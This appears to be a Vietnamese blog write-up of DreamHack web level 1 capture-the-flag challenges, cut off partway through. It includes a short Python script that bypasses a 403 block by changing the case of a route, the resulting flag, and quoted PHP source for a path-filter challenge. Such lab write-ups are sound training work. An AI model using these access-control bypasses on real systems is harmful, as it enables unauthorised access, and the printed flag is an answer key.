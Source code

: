 ```yaml
---
title: DreamHack Web level 1 (1)
published: 2024-10-10
description: Learning about NoSQL Injection
tags: [Pentest]
category: 'Writeup'
draft: false 
---
```


# Writeup DreamHack Web Level 1 Part 1

## Baby case
![image](https://hackmd.io/_uploads/BJY6EJHgkl.png)
* Source gồm hai route là root và `/shop`. Truy cập vào `/shop` thì ta sẽ bị từ chối truy cập và trả về 403.
* Cách để bypass thì ta sẽ đổi thành `/SHOP` và dùng python để gửi request kèm data
```py
import requests

url = "http://host3.dreamhack.games:15417/"

data = {
    'leg' : 'flag'
}

res = requests.post(url+'SHOP', data=data)
print(res.text)
```
![image](https://hackmd.io/_uploads/BygNSkBeke.png)
> DH{167e709c31556e37207e46db78f34ab1d6919e0789e3441b5740f02143169ecc}

## 2. simple-phparse
```py
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
    <title>PHParse</title>
</head>
<body>


    <!-- php code -->
    <?php
     $url = $_SERVER['REQUEST_URI'];
     $host = parse_url($url,PHP_URL_HOST);
     $path = parse_url($url,PHP_URL_PATH);
     $query = parse_url($url,PHP_URL_QUERY);
     echo "<div><h1> host: $host <br> path: $path <br> query: $query<br></h1></div>";

     if(preg_match("/flag.php/i", $path)){
        echo "<div><h1>NO....</h1></div>";
     }
     else echo "<div><h1>Cannot access flag.php: $path </h1></div> ";
    ?> 

<style type="text/css">
        body {
```